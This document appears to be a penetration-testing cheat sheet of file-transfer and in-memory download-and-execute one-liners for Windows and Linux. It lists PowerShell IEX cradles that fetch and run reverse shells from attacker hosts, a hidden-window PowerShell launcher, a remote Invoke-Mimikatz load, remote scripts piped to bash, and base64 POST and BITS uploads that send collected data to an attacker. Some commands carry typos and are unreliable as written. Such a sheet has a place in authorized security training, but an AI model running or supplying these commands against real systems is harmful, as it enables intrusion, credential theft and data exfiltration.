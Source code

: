 ## POWERSHELL IN-MEMORY DOWNLOAD AND EXECUTE:  
1) iex(iwr'http://ip/file.ps1')  
2) $down=[System.NET.WebRequest]::Create("http://ip/file.ps1"); $read=$down.GetResponse(); IEX([System.IO.StreamReader]($read.GetReasponseStream())).ReadToEnd()  
3) $file=New-Object -ComObject Msxms2.XMLHTTP;$file.open('GET','http://ip/file.ps1',$false);$file.send();iex $file.responseText  
4) iex(New-Object Net.WebClient).DownloadString('http://ip/reverse.ps1')  
5) $ie=Nwe-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('https://ip/reverse.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response  
6) powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://attacker.com/shell'))  

## CURL/WGET:  
wget http://10.11.0.106/nc.exe -O nc.exe  
curl http://10.11.0.106/nc.exe -o nc.exe  

## WINDOWS:  
1) powershell (New-Object System.Net.WebClient).DownloadFile("https://[attacker ip]/test.txt", "test.txt")  
2) certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe  
3) Copy from SMB share: copy \\[attacker]\kali\reverse.exe C:\PrivEsc\reverse.exe  
4) Download: (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")  
5) Download: Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1  
6) Download and execute in memory: IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')  
7) Pipeline iex: Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 | iex  
8) Bypass IE error: Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex  
10) Disable Internet Explorer’s First Run customization: reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2  

## WINDOWS TO LINUX (BASE64 encoded):  
1) $b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))  
2) Invoke-WebRequest -Uri http://[ATTACKER IP]:443 -Method POST -Body $b64  
3) DECODE ON LOCAL MACHINE: echo <base64> | base64 -d -w 0 > bloodhound.zip  

## BITSADMIN:  
1) Download: bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe  
2) Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"  
3) Upload: Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql  

## WINDOWS CMD:  
xcopy \\10.10.10.132\share\nc.exe nc.exe  
copy C:\Temp\nc.exe \\10.10.10.132\c$\Temp\nc.exe  

## RDP SESSION MOUNT DISK:  
1) Create connection: rdesktop 10.10.10.132 -r disk:linux='/home/user/rdesktop/files'  
2) Transfer file: copy \\tsclient\c\temp\mimikatz.exe .  

## OPENSSL BASE64 WINDOWS:  
1) Encryption: openssl.exe enc -base64 -in nc.exe -out nc.txt  
2) Decryption: openssl.exe enc -base64 -d -in nc.txt -out nc.exe  

## LINUX SMB SHARE (IMPACKET):  
smbserver.py -smb2support <share name> <location>  
smbserver.py -smb2support share $(pwd)  

## OPENSSL LINUX:  
1) Create certificate: openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem  
2) Stand up server: openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh  
3) Download file: openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh  

## BASH (/DEV/TCP):  
1) Connect to Target's Webserver: exec 3<>/dev/tcp/10.10.10.32/80  
2) HTTP GET Request: echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3  
3) Print the Response: cat <&3  

## PHP:  
1) php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'  
2) php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'  
3) php -r '$rfile = "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"; $lfile = "LinEnum.sh"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'  
4) Pipe output to bash: php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash  

## PYTHON 2:  
import urllib  
urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")  

## PYTHON 3:  
import urllib.request  
urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")  

## RUBY:  
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'  
## PERL:  
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'  

## NETCAT FILE TRANSFER:    
1) Start listener: nc -lvnp 80 <LinEnum.sh  
2) Download file: cat < /dev/tcp/10.10.10.32/80 > LinEnum.sh  

## FTP:  
python -m pyftpdlib -p 21  

## JAVASCRIPT:  
1) Create JS file as wget.js:  
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");  
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);  
WinHttpReq.Send();  
BinStream = new ActiveXObject("ADODB.Stream");  
BinStream.Type = 1;  
BinStream.Open();  
BinStream.Write(WinHttpReq.ResponseBody);  
BinStream.SaveToFile(WScript.Arguments(1));  

2) Download file: cscript /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1  

## VBSCRIPT:  
1) Create file wget.vbs:  
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  
dim bStrm: Set bStrm = createobject("Adodb.Stream")  
xHttp.Open "GET", WScript.Arguments.Item(0), False  
xHttp.Send  

with bStrm  
    .type = 1  
    .open  
    .write xHttp.responseBody  
    .savetofile WScript.Arguments.Item(1), 2  
end with  

2) Download file: cscript /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1  
